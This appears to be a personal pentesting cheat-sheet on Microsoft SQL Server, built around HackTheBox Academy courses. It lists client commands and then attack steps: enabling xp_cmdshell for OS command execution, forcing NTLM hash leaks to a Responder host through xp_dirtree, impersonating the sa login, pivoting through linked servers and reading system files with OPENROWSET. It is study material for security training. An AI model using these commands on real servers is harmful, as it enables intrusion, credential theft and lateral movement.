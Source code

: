 # MSSQL 🐭

[![footprinting](../../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)
[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

<div class="row row-cols-lg-2"><div>

Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. It's often used by developers when building .NET applications. 

SQL Server Management Studio (SSMS) is a graphical client that can be installed along MSSQL or separately. It allows database administrators, developers, and other users to perform various tasks related to SQL Server databases.

🐲 MSSQL default port is 1433 or 2433 <small>(TCP)</small> and 1434 <small>(UDP)</small>.
</div><div>

Common commands:

```sql!
select name from sys.databases    -- list databases
select name from sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');
use db_name;                      -- select a database
-- list the tables in the database
select table_name from information_schema.tables where table_type = 'base table';
-- list the columns of the table "table_name_here"
select column_name, data_type from information_schema.columns where table_name = 'table_name_here';
-- list users (1), and sysadmins (2)
SELECT name, password,sysadmin FROM syslogins
SELECT name FROM sys.server_principals WHERE IS_SRVROLEMEMBER('sysadmin', name) = 1;
```
</div></div>

<hr class="sep-both">

## MSSQL Clients

<div class="row row-cols-lg-2"><div>

#### Windows client - sqlcmd

On Windows, you can use the [sqlcmd](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver16&tabs=go%2Cwindows&pivots=cs1-bash) utility.

```ps
PS> # -E == Windows Auth | -Q == Query
PS> sqlcmd -E -Q "select name from sys.databases"
PS> sqlcmd -E -i query.sql
PS> sqlcmd -S server_name -U sa -P password [...]
```

If [WMI (DCOM)](/operating-systems/networking/protocols/wmi.md) is available, from a Linux host, you can access `sqlcmd` after popping a powershell:

```shell!
$ impacket-wmiexec username:password@IP -shell-type powershell
```
</div><div>

#### Linux client - sqlsh

You can use [sqlsh](https://en.wikipedia.org/wiki/Sqsh) on Linux.

```shell!
$ sqsh -S IP -U 'username' -P 'password' -h
$ sqsh -S IP -U '.\\username' -P 'password' -h
1> some query
2> go
```

#### Linux client - impacket

You can alternatively use [mssqlclient](/operating-systems/networking/protocols/tools/impacket.md#mssqlclient).

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
```

The SQL Server might user Windows Authentication or Username/Password Authentication. Use or remove`-windows-auth` accordingly.
</div></div>


<hr class="sep-both">

## MSSQL Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

* We can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```shell!
$ nmap -sC -sV --script "*ms-sql*" -p 1433 IP
```

* Look for interesting [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) modules.

```shell!
mfs6> search mssql/
```

#### FootHold

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* You can use [Metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to XXX.

```shell!
mfs6> use mssql_enum_sql_logins
mfs6> set RHOSTS IP
mfs6> set USERNAME username
mfs6> set PASSWORD password
mfs6> set USE_WINDOWS_AUTHENT true
mfs6> run
```

#### Exploitation - Part I

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) can be used to run commands. It's disabled by default. The command is runs with the same permissions as the server.

```sql!
-- [EXECUTE] sp_configure 'show advanced options', 1
-- RECONFIGURE
-- [EXECUTE] sp_configure 'xp_cmdshell', 1
-- RECONFIGURE
xp_cmdshell 'whoami'
```

* We can steal hashes by setting up a [responder](/cybersecurity/red-team/_knowledge/topics/request_grabber.md#responder)

```sql!
EXEC master..xp_dirtree '\\IP\share\'
EXEC master..xp_subdirs '\\IP\share\'
```

* We may be able to impersonate users:

```sql!
-- list users we can impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
-- impersonate user 'sa'
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER; SELECT IS_SRVROLEMEMBER('sysadmin')
REVERT # cancel impersonation
```
</div><div>

#### Exploitation - Part II

* Extended Store Procedures
* CLR Assemblies
* SQL Server Agent Jobs
* External Scripts
* `xp_regwrite` can be used to create registry entries
* User Defined Functions in C/C++ ([ex](https://github.com/mysqludf/lib_mysqludf_sys))

#### Lateral Movement

[![attacking_common_services](../../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

The current server may be linked to other servers. If we compromise it, we may be able to run SQL queries on linked servers.

* List Linked Servers

```sql!
SELECT srvname, isremote FROM sysservers
```

* Execute a SQL Query on a Linked Server

```sql!
EXEC('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [your_target_here]
```

#### Additional Notes

* If installed, look for saved credentials in SSMS

* The services often runs as `NT SERVICE\MSSQLSERVER`

* By default, encryption is not enforced when attempting to connect.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Try running the tool as administrator
* HeidiSQL, SQLPro, mssql-cli
* [System Databases](https://learn.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sql-server-ver15)

```sql!
SELECT name FROM master.dbo.sysdatabases
SELECT table_name FROM xxx.INFORMATION_SCHEMA.TABLES
```
</div><div>

Write files

```sql!
-- enable to write
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
-- use it...
-- can read any file
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

SSMS

* File > New > Query with current connection
* Press execute to run the file
* Need to add `GO`?
</div></div>